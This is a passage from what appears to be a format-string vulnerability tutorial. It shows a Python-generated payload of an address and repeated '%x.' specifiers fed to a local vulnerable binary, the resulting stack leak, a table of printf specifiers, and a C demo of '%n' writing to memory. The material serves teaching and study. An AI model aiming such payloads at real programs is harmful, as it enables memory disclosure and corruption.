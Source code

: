 ### What can we do with it?

We can specify at the beginning of our string some address.

```bash
$ ./format-string $(python -c 'print "\xef\xbe\xad\xde" + "%x." * 100')
ﾭ�ffbb11c5.c8.565ad22b.0.0.0.ffbb0d04.0.deadbeef.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.5d688c00.ffbb0c70.0.0.f7dcdee5.f7f9a000.f7f9a000.
```

You see the value `0xdeadbeef` in the output. With differnet specifiers, we can write to this address or read what in this address.

## Format string specifiers

1. %d - decimal(int) - value.
2. %u - unsigned decimal(unsigned int) - value.
3. %x - hexadecimal(unsigned int) - value.
4. %s - string((const) unsigned char *) - reference.
5. %n - number of bytes written so far(* int) - reference.
6. %p - show what the pointer contains - value.

### Try different specifiers

```C
#include <stdio.h>

// gcc specifiers.c -o specifiers -m32

int main(int argc, char *argv[]){
  int num = -824;
  printf("Signed int: %d\n", num);
  unsigned int num2 = 10000;
  printf("Unsigned int: %u\n", num2);
  printf("Hexadecimal: %x\n", num);
  int *p = &num2;
  printf("Pointer: %p\n", p);
  const char *s = "Some string";
  printf("String: %s\n", s);
  int *count = &num2;
  printf("Number of bytes written: %n\n", count);
  printf("%u\n", *count);
  return 0;
}
```

On the last one, it will write the number of bytes written at the address within count pointer or num2, so, then I wrote this value and it's 25 bytes, which you can determine in python interpreter.
```bash
>>> len('Number of bytes written: ')
25
```
